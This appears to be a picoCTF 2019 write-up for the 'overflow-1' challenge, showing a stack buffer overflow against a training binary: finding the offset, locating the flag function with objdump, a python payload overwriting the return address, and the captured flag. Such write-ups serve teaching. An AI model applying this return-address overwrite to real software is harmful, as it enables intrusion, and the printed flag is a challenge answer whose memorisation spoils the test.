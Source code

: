 # Solution

```
$ ./vuln
Give me a string and lets see what happens: 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Woah, were jumping to 0x54545454 !
Segmentation fault (core dumped)
```
080485e6
Ok so now we know the return address is being overwritten by TTTT (0x54), so we just have to find the address of the flag function to go to
```
$ objdump -d vuln
```
```
080485e6 <flag>:
 80485e6:	55                   	push   %ebp
 80485e7:	89 e5                	mov    %esp,%ebp
 80485e9:	53                   	push   %ebx
```

The address is at `0x080485e6`, so putting in little endian format, `\xe6\x85\x04\x08`. Now just replace the T's with the return address (Use python to print)

```
$ python -c "print(b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS\xe6\x85\x04\x08')" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```

## Running on server
```
Hackin7@pico-2019-shell1:/problems/overflow-1_2_305519bf80dcdebd46c8950854760999$ cd /problems/overflow-1_2_305519bf80dcdebd46c8950854760999 Hackin7@pico-2019-shell1:/problems/overflow-1_2_305519bf80dcdebd46c8950854760999$ python -c "print(b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS\xe6\x85\x04\x08')" | ./vulnGive me a string and lets see what happens: Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a32b9368}Segmentation fault (core dumped)
Hackin7@pico-2019-shell1:/problems/overflow-1_2_305519bf80dcdebd46c8950854760999$ 
```

# Flag
`picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a32b9368}`